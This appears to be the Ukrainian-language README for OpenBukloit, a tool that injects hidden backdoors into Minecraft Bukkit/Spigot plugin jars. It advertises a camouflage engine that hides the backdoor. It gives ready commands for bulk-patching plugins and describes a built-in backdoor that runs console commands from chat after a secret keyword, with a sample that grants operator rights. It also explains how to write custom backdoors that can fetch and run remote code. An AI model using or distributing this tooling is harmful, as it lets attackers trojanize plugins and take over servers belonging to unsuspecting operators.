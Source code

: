 <div align="center"><h1>OpenBukloit - Інжектор бекдорів для Minecraft плагінів</h1></div>

<div align="center"><img alt="Logo" src="../logo.png"/></div>

<div align="center">
    <a href="https://github.com/VoxelHax/OpenBukloit/issues"><img alt="Open issues" src="https://img.shields.io/github/issues-raw/VoxelHax/OpenBukloit"/></a>
    <a href="https://github.com/Voxelhax/OpenBukloit/releases/latest"><img alt="GitHub downloads" src="https://img.shields.io/github/downloads/VoxelHax/OpenBukloit/total"></a>
    <img alt="Code size" src="https://img.shields.io/github/languages/code-size/VoxelHax/OpenBukloit"/>
    <a href="https://www.codefactor.io/repository/github/voxelhax/openbukloit"><img alt="CodeFactor" src="https://www.codefactor.io/repository/github/voxelhax/openbukloit/badge"/></a>
    <a href="https://discord.gg/xtaktPTzYp"><img alt="Discord" src="https://img.shields.io/discord/928214827095175199"></a>
</div>

<div align="center">
    <a href="https://github.com/Voxelhax/OpenBukloit/releases/latest"><img alt="Download" src="https://img.shields.io/badge/-ЗАВАНТАЖИТИ_ОСТАНІЙ_РЕЛІЗ_(КЛІК)-blue?style=for-the-badge"/></a>
</div>

<br>

<hr>

**Мови: [English](../README.md), [Русский](README_RU.md), [Українська](README_UA.md)**

**OpenBukloit** — сучасний та потужний універсальний інжектор бекдорів, сумісний з усіма Bukkit/Spigot/Paper/і т.д. плагінами. Його особливістю є можливість інтеграції з будь-яким плагіном без необхідності щоразу модифікувати бекдор. Більш того, він забезпечує потужний двигун камуфляжу,
що робить практично неможливим його пошук без достатніх знань чи просунутих автоматизованих інструментів. OpenBukloit був розроблений для тестування систем безпеки серверів Minecraft. Команда VoxelHax не несе відповідальності за його неправомірне використання.

Це продовження проекту **[Bukloit](https://github.com/Rikonardo/Bukloit)**, в якому ми врахували всі проблеми попереднього проекту та використали зовсім інший підхід до розробки.

## Можливості OpenBukloit
- **Повна підтримка Bukkit та його форків на будь-якій версії Minecraft.**
- **Підтримка користувальницьких бекдорів.**
- **Автоматичне завантаження JDK, тому вам не потрібно дбати про сумісність версії Java.**
- **Потужний камуфляжний двигун, що ускладнює пошук бекдору у плагіні.**

## Встановлення
Для використання OpenBukloit у вас має бути встановлена будь-яка версія Java (але не нижче 8). Jar-файл OpenBukloit можна завантажити з [вкладки релізів](https://github.com/Voxelhax/OpenBukloit/releases/latest). OpenBukloit не вимагає жодних додаткових дій, просто помістіть файл jar кудись і використовуйте його з командного рядка.

## Використання
Щоб запустити OpenBukloit, відкрийте командний рядок у каталозі, де знаходиться jar-файл OpenBukloit та введіть:

```sh
java -jar OpenBukloit.jar
```

Після імені файлу jar можна передати деякі аргументи для налаштування інжектора:

| Короткий аргумент | Довгий аргумент | Опис                                                                                                                                                                                  | Тип      |
|-------------------|-----------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------|
| -e                | --exploit       | Шлях до скомпільованого файлу .class або до похідного коду .java, який буде використовуватися як бекдор.<br />**За замовчуванням використовується вбудований бекдор.**                | Значення |
| -m                | --mode          | Режим Може бути одиночним/множинним.<br />**За замовчуванням: <ins>multiple</ins>.**<br />У множинному режимі змінює всі файли у зазначеній папці. В одиночному - лише вказаний файл. | Значення |
| -i                | --input         | Шлях до вхідної папки/файлу (залежить від режиму).<br />**За замовчуванням: <ins>in</ins> (<ins>in.jar</ins> якщо режим одиночний).**                                                 | Значення |
| -o                | --output        | Шлях до вихідної папки/файлу (залежить від режиму).<br />**За замовчуванням: <ins>out</ins> (<ins>out.jar</ins> якщо режим одиночний).**                                              | Значення |
| -r                | --replace       | Замінювати вихідний файл, якщо він вже існує.                                                                                                                                         | Флаг     |

Але цих аргументів недостатньо для запуску OpenBukloit. Ви також маєте вказати параметри бекдора. Оскільки OpenBukloit підтримує впровадження користувацьких бекдорів, ви повинні передати додаткові аргументи, які потрібні для бекдору.

## Вбудований експлоїт

За замовчанням OpenBukloit використовує вбудований бекдор. Це простий бекдор, який дозволяє виконувати будь-які команди з консолі, написавши спеціальне ключове слово перед командою в чаті.

Параметри вбудованого бекдору:

| Довгий аргумент | Опис                                                      |
|-----------------|-----------------------------------------------------------|
| --key           | Ключове слово, яке запускає виконання консольної команди. |

Використання у грі ключа, встановленого на значення "hackthisserver":

```
hackthisserver op MyName
```

Це повідомлення, відправлене в чат, буде виконане як консольна команда і дасть ОП гравцю MyName.

**Ось кілька прикладів використання OpenBukloit із вбудованим бекдором:**

1. Пропатчити всі .jar файли з ключем "#console" із папки "in" і зберегти їх у папку "out" без заміни.

```sh
java -jar OpenBukloit.jar -m multiple -i "in" -o "out" --key "#console"
```

2. Пропатчити всі файли з ключем "hacktheserver" з папки "in" і зберегти їх у папку "out" із заміною.

```sh
java -jar OpenBukloit.jar -m multiple -i "in" -o "out" --key "hacktheserver" -r
```

3. Пропатчити один файл "PluginName.jar" з ключем "#console" і збережіть його як файл "Output.jar" із заміною.

```sh
java -jar OpenBukloit.jar -m single -i "PluginName.jar" -o "Output.jar" --key "#console" -r
```

## Написання користувальницького експлоїту

Ви також можете написати власний бекдор. Це має бути клас із методом `public static void inject(JavaPlugin args)` (JavaPlugin з Bukkit API).

Ось простий приклад:

```java
import org.bukkit.plugin.java.JavaPlugin;

public class MyBackdoor {
    public static void inject(JavaPlugin args) {
        System.out.println("Hello, world!");
    }
}
```

Метод `inject` буде виконаний після методу `onEnable` плагіна. Ви можете робити тут все, що ви хочете, включаючи завантаження та запуск довільного коду з Інтернету.

Але ви повинні знати, що є деякі обмеження:
- В даний час ви не можете використовувати вкладені класи, у файлі експлоїту має бути лише один клас.
- Ви не повинні посилатися на свій клас експлоїту всередині нього, наприклад, використовувати його як параметри методу, як значення, що повертається, або як тип поля.

Ви можете використовувати зовнішні параметри з командного рядка, використовуючи %placeholders%, вони будуть підставлені в процесі інжекта:
Ось простий приклад:

```java
import org.bukkit.plugin.java.JavaPlugin;

public class MyBackdoor {
    public static void inject(JavaPlugin args) {
        System.out.println("Hello, %name%!");
    }
}
```

Потім ви можете заінжектити бекдор за допомогою команди:

```sh
java -jar OpenBukloit.jar -e MyBackdoor.java --name world
```

Зверніть увагу, що ми можемо передати наш бекдор OpenBukloit без компіляції, і він автоматично скомпілює його з наявністю API Spigot в пулі класів під час компіляції.
